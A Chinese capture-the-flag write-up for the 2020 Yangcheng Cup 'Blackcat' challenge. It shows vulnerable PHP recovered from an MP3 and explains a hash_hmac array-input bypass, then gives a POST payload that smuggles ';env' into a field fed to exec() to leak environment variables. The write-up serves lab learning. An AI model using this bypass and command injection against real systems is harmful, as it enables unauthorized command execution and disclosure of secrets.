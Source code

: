 ```yaml
---
title: '[羊城杯 2020]Blackcat、'
date: 2024-09-26 20:05:06
tags: php特性
categories: 刷题笔记
---
```


## [羊城杯 2020]Blackcat

我们打开源码页面，它提示听听歌

![image-20240926201549346](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409262015449.png)

我们猜测mp3文件里有东西

下载Hei_Mao_Jing_Chang.mp3文件,使用命令

```
strings Hei_Mao_Jing_Chang.mp3查看文件
```

在文末看到一段PHP代码

```
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('
$clandestine = getenv("clandestine");
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('
echo exec("nc".$_POST['One-ear']);
```

分析代码:

首先要使用POST方式提交参数Black-Cat-Sheriff和One-ear;

getenv()函数定义：取得系统的环境变量；

使用POST方式提交White-cat-monitor,使用hash_hmac函数加密key为clandestine赋值给变量clandestine,再次使用hash_hmac函数加密,密钥为clandestine,此时的clandestine为White-cat-monitor加密的结果,赋值给变量hh;使hh===Black-Cat-Sheriff;

One-ear可控.

hash_hamc函数是关键点,学习一下

hash_hmac(\$algo, \$data, \$key)

当传入的$data为数组时，加密得到的结果固定为NULL；那么第二次的hash_hmac就是可控的

预测hh的值,将其赋值给Black-Cat-Sheriff
![img](https://i-blog.csdnimg.cn/blog_migrate/a37965740e8c9423c1b223dc6426735c.png)

```
payload:

White-cat-monitor[]=0&Black-Cat-Sheriff=afd556602cf62addfe4132a81b2d62b9db1b6719f83e16cce13f51960f56791b&One-ear=;env
```

post提交得到flag
